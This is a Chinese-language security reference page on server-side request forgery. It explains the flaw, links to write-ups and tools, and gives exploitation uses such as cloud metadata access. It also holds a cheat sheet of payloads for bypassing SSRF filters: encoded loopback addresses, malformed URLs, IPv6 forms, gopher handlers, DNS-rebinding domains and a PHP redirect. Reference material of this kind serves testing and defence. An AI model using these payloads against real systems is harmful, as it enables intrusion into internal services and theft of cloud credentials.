 # SSRF

---

## 免责声明

`本文档仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关.`

---

**简介**

很多 web 应用都提供了从其他的服务器上获取数据的功能.使用用户指定的 URL,web 应用可以获取图片,下载文件,读取文件内容等.这个功能如果被恶意使用,可以利用存在缺陷的 web 应用作为代理攻击远程和本地的服务器.这种形式的攻击称为服务端请求伪造攻击(Server-side Request Forgery).

一般情况下，SSRF 攻击的目标是从外网无法访问的内部系统。SSRF 形成的原因大都是由于服务端提供了从其他服务器应用获取数据的功能且没有对目标地址做过滤与限制。比如从指定URL地址获取网页文本内容，加载指定地址的图片，下载等等。

**相关文章**
- [SSRF 漏洞分析及利用](https://www.knowsec.net/archives/85/)
- [浅析 SSRF 原理及利用方式](https://www.anquanke.com/post/id/145519)
- [SSRF 利用与防御](https://hellohxk.com/blog/ssrf/)
- [聊一聊ssrf漏洞的挖掘思路与技巧](https://bbs.ichunqiu.com/thread-49370-1-1.html)
- [Bypassing SSRF Protection](https://medium.com/@vickieli/bypassing-ssrf-protection-e111ae70727b)

**相关案例**
- [My First SSRF Using DNS Rebinding](https://geleta.eu/2019/my-first-ssrf-using-dns-rebinfing/)
- [SSRF in Exchange leads to ROOT access in all instances](https://hackerone.com/reports/341876) - 通过对 ssrf 访问 Google Cloud Metadata,直至 RCE
- [SSRF (Server Side Request Forgery) worth $4,913](https://medium.com/techfenix/ssrf-server-side-request-forgery-worth-4913-my-highest-bounty-ever-7d733bb368cb)
- [Just Gopher It: Escalating a Blind SSRF to RCE for $15k](https://sirleeroyjenkins.medium.com/just-gopher-it-escalating-a-blind-ssrf-to-rce-for-15k-f5329a974530)
- [SSRF exploitation in Spreedsheet to PDF converter](https://r4id3n.medium.com/ssrf-exploitation-in-spreedsheet-to-pdf-converter-2c7eacdac781) - excel 中的 ssrf+xxe 读文件

**payload**
- [bugbounty-cheatsheet/cheatsheets/ssrf.md](https://github.com/EdOverflow/bugbounty-cheatsheet/blob/master/cheatsheets/ssrf.md)
- [AboutSecurity/Payload/SSRF](https://github.com/ffffffff0x/AboutSecurity/blob/master/Payload/SSRF/)

**相关工具**
- [In3tinct/See-SURF](https://github.com/In3tinct/See-SURF) - python 写的 ssrf 参数扫描工具
- [swisskyrepo/SSRFmap](https://github.com/swisskyrepo/SSRFmap) - 自动化 Fuzz SSRF 开发工具
- [tarunkant/Gopherus](https://github.com/tarunkant/Gopherus) - 该工具生成 gopher payload ，以利用 SSRF 并在各种服务器中获得 RCE

---

# 利用方式

- 内部端口扫描
- Leverage cloud services
    - 169.254.169.254
        - https://www.ibm.com/developerworks/cn/cloud/library/1620-openstack-metadata-service/index.html
- reveal IP Address & HTTP Library
    - https://webhook.site/
- Download a very large file (Layer 7 DoS)

---

# 绕过方法

**特殊 IP**
```
http://0177.1/
http://0x7f.1/
http://127.000.000.1
https://520968996
```

> The latter can be calculated using http://www.subnetmask.info/

**错误 IP**
```
http://127.1
http://0
http://1.1.1.1 &@2.2.2.2# @3.3.3.3/
urllib : 3.3.3.3
http://127.1.1.1:80\@127.2.2.2:80/
```

**IPv6**

```
http://[::1]
http://[::]
http://[::]:80/
http://0000::1:80/
```

**Exotic Handlers**

```
gopher://, dict://, php://, jar://, tftp://
```

**DNS 欺骗**

```
10.0.0.1.xip.io
www.10.0.0.1.xip.io
mysite.10.0.0.1.xip.io
foo.bar.10.0.0.1.xip.io
```

> http://xip.io

```
10.0.0.1.nip.io
app.10.0.0.1.nip.io
customer1.app.10.0.0.1.nip.io
customer2.app.10.0.0.1.nip.io
otherapp.10.0.0.1.nip.io
```

> http://nip.io

**重定向欺骗**
```
<?php header(“location: http://127.0.0.1"); ?>
```

**编码绕过**

这些包括十六进制编码，八进制编码，双字编码，URL 编码和混合编码。

```
127.0.0.1 translates to 0x7f.0x0.0x0.0x1
127.0.0.1 translates to 0177.0.0.01
http://127.0.0.1 translates to http://2130706433
localhost translates to %6c%6f%63%61%6c%68%6f%73%74
```
